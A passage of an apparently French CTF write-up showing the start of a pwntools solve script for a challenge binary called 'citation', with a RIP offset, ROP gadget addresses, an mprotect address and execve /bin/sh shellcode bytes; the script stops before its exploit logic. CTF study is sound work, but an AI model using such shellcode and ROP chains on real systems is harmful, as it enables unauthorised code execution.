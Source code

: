 ## Scripts de solve complets

* Première partie unintended

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn

BINARY = "citation"
LIBC = "/lib/x86_64-linux-gnu/libc.so.6"
LD = "/lib64/ld-linux-x86-64.so.2"

# Set up pwntools for the correct architecture
exe = pwn.context.binary = pwn.ELF(BINARY)
libc = pwn.ELF(LIBC)
ld = pwn.ELF(LD)
#pwn.context.terminal = ["tmux", "splitw", "-h"]
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False
p64 = pwn.p64
u64 = pwn.u64
p32 = pwn.p32
u32 = pwn.u32
p16 = pwn.p16
u16 = pwn.u16
p8  = pwn.p8
u8  = pwn.u8

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)

align_ptr = lambda addr: (addr + 4095) & ~4095

rip_offset = 1448
buffer_fmt_offset = 6
pop_rdi = 0x000000000040225d
pop_rsi = 0x00000000004128f9
pop_rdx_rbx = 0x000000000047ce8b
bss = 0x004bc100
mprotect = 0x000000000042e070 

shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

gdbscript = '''
b write_quote
continue
'''.format(**locals())

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)

```